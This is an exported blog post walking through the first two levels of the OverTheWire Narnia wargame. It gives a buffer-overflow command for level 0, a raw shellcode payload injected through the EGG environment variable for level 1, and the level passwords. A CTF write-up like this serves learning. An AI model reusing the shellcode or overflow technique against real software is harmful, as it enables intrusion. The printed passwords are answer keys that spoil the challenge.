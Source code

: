 ```yaml
---
title: "OverTheWire: Narnia"
date: 2017-05-24T03:10:36.500Z
tags: [medium-blog]
---
```


<article class="h-entry">
  <section data-field="body" class="e-content">
    <section name="6f76" class="section section--body section--first section--last">
      <div class="section-content">
        <div class="section-inner sectionLayout--insetColumn">
          <h3 name="1811" id="1811" class="graf graf--h3 graf-after--h3">Level 0: Simple Buffer Overflow</h3>
          <p name="0218" id="0218" class="graf graf--p graf-after--h3">We’re given a buffer of 20 characters and an
            int. The program reads 24 characters from input, exactly overwriting the int. The exploit code:</p>
          <pre name="47f8" id="47f8"
            class="graf graf--pre graf-after--p">(python -c ‘print “\xef\xbe\xad\xde” * 6’; cat) | ./narnia0</pre>
          <p name="b867" id="b867" class="graf graf--p graf-after--pre">The password for level 1 is <code
              class="markup--code markup--p-code">efeidiedae</code>.</p>
          <h3 name="59e6" id="59e6" class="graf graf--h3 graf-after--p">Level 1: Executing Shellcode</h3>
          <p name="d660" id="d660" class="graf graf--p graf-after--h3">The program we’re given will execute anything
            at the environment variable <code class="markup--code markup--p-code">EGG</code> as a function pointer; I
            found some shellcode from google and it worked. The exploit code:</p>
          <pre name="a253" id="a253"
            class="graf graf--pre graf-after--p">EGG=$(printf “\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\x<br>ff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81”) bash -c ‘./narnia1’</pre>
          <p name="5af8" id="5af8" class="graf graf--p graf-after--pre">The password for level 2 is <code
              class="markup--code markup--p-code">nairiepecu</code>.</p>
          <p name="3a3b" id="3a3b" class="graf graf--p graf-after--p">Level 2</p>
          <p name="ce56" id="ce56" class="graf graf--p graf-after--p graf--trailing">soon lol</p>
        </div>
      </div>
    </section>
  </section>
  <footer>
    <p>By <a href="https://medium.com/@failedxyz" class="p-author h-card">Michael Zhang</a> on <a
        href="https://medium.com/p/a282ef43b705"><time class="dt-published" datetime="2017-05-24T03:10:36.500Z">May
          24, 2017</time></a>.</p>
    <p><a href="https://medium.com/@failedxyz/overthewire-narnia-a282ef43b705" class="p-canonical">Canonical link</a>
    </p>
    <p>Exported from <a href="https://medium.com">Medium</a> on October 8, 2024.</p>
  </footer>
</article>
